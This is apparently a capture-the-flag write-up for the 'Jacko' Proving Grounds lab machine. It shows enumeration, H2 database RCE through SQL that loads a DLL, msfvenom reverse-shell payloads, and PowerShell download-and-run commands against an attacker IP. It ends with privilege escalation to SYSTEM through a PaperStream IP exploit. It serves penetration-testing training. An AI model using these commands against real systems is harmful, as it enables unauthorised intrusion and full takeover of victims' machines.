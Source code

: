 ```yaml
---
description: Writeup for Jacko from Offensive Security Proving Grounds (PG)
---
```


# Jacko

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.134.66 -t full`

![](../../.gitbook/assets/021d0b8afd7649f39fca8d24b8bbf7fb.png)

`nmapAutomator.sh -H 192.168.134.66 -t vulns`

![](../../.gitbook/assets/1072d5ba8679429aaeb01136da99232d.png)

### SMB

Null sessions not allowed

### HTTP

Port 80:

![](../../.gitbook/assets/34c2f6718a9b486c8d5790dcb7175e60.png)

Port 8082:

![](../../.gitbook/assets/666f9bc5257044d6bed3cdc7acc76aaa.png)

The default credentials `sa:` worked. Here we can run SQL queries.

![](../../.gitbook/assets/0bfad5b5c0984bf7a22935c519293093.png)

`SHOW DATABASES` shows us that there is a `PUBLIC` schema.

![](../../.gitbook/assets/7084ba7897af4583ac7b68e660231dfe.png)

However, further enumeration found nothing much interesting in the database.

We see the version of the product \(H2 1.4.199\). This version suffers from an RCE vulnerability.

![](../../.gitbook/assets/b79123062d834793a967f0c26b95e917.png)

Reference: [https://www.exploit-db.com/exploits/49384](https://www.exploit-db.com/exploits/49384)

If we execute the following SQL statements:

```text
-- Write native library
SELECT CSVWRITE('C:\Windows\Temp\JNIScriptEngine.dll', CONCAT('SELECT NULL "', CHAR(0x4d),CHAR(0x5a),CHAR(0x90), ... ,CHAR(0x00),CHAR(0x00),CHAR(0x00),CHAR(0x00),'"'), 'ISO-8859-1', '', '', '', '', '');

-- Load native library
CREATE ALIAS IF NOT EXISTS System_load FOR "java.lang.System.load";
CALL System_load('C:\Windows\Temp\JNIScriptEngine.dll');

-- Evaluate script
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
```

we can achieve RCE.

With this, we can run the `systeminfo` command. This shows us that the architecture is x64.

![](../../.gitbook/assets/ac23f5cc520b4c4c9c5fa4ef8af134d7.png)

`msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.49.103 LPORT=445 -f exe > reverse.exe`

**Note that ports like 4242, 4444, etc. did not work. I used port 445 since I realised that I was able to copy files via SMB, so it likely won't be blocked by the firewall.**

Copy the payload to the victim machine via SMB:

```sql
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.103\\ROPNOP\\reverse.exe c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

![](../../.gitbook/assets/209d74a651a148b18f8652c74a1c3fc3.png)

Running the payload:

```sql
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Receiving the reverse shell:

![](../../.gitbook/assets/364a758bbb304e99aaf1488d22bc523f.png)

![](../../.gitbook/assets/4efd57e982134262906d2d5ba26b4385.png)

### Privilege Escalation

#### SeImpersonatePrivilege

`c:\windows\system32\whoami.exe /priv`

We see that `SeImpersonatePrivilege` is enabled.

![](../../.gitbook/assets/22f6c74ab5294d5c859882a40b109743.png)

After we locate the location of `powershell.exe`, we can run powershell.

![](../../.gitbook/assets/a5793bbfd02e41a98d89c71345a6ef1d.png)

Using the `GetCLSID.ps1` script from [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/), we can attempt to get CLSIDs.

`IEX (New-Object Net.WebClient).DownloadString('http://192.168.49.103/GetCLSID.ps1')`

![](../../.gitbook/assets/db1ad6867bb744199270e1242d9b5498.png)

This does not work because we cannot find any CLSIDs.

#### Windows OS Exploits

Transfer WinPEAS:

`$WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile("http://192.168.49.103/winPEASx86.exe","C:\users\tony\winPEASx86.exe")`

Run WinPEAS:

`c:\users\tony\winpeasx86.exe`

![](../../.gitbook/assets/348a5f7d010840c59a56d4843b05db60.png)

We could try these as a last resort.

#### Vulnerable Apps

**Took quite a while to figure this out. Always check for vulnerable apps if WinPEAS does not find anything useful!**

![](../../.gitbook/assets/fa85991e9b8340df8fed96b2c26388f7.png)

![](../../.gitbook/assets/7241af1f69a64de3bf9be18186832ce7.png)

We can check the PaperStream IP version, it is 1.42

![](../../.gitbook/assets/59a45612ea384eac8bcfd17c8ad03679.png)

This version is vulnerable to a privilege escalation vulnerability.

PaperStream IP exploit: [https://www.exploit-db.com/exploits/49382](https://www.exploit-db.com/exploits/49382)

`msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.49.103 LPORT=445`

![](../../.gitbook/assets/b67212d77f5146f6a15675a63d98d0ae.png)

**I initially made the mistake of using an `x64` payload. Note that the application is found under `Program Files (x86)`, so it cannot use an `x64` DLL.**

`$WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile("http://192.168.49.103/shell.dll","C:\users\tony\shell.dll")`

`$WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile("http://192.168.49.103/49382.ps1","C:\users\tony\49382.ps1")`

Run the exploit: `C:\users\tony\49382.ps1`

![](../../.gitbook/assets/09234d8c21064bfd90fac875bd05e53d.png)

Once the exploit is triggered, we obtain our reverse shell.

![](../../.gitbook/assets/002ed5fe3e274bb2926b32474c8ebfe6.png)

The exploit works and we received a SYSTEM shell.

![](../../.gitbook/assets/ff7dd418cef0408e81323e49bafb1249.png)

![](../../.gitbook/assets/34ee540f2df94dcaaae6914ef1baa47e.png)

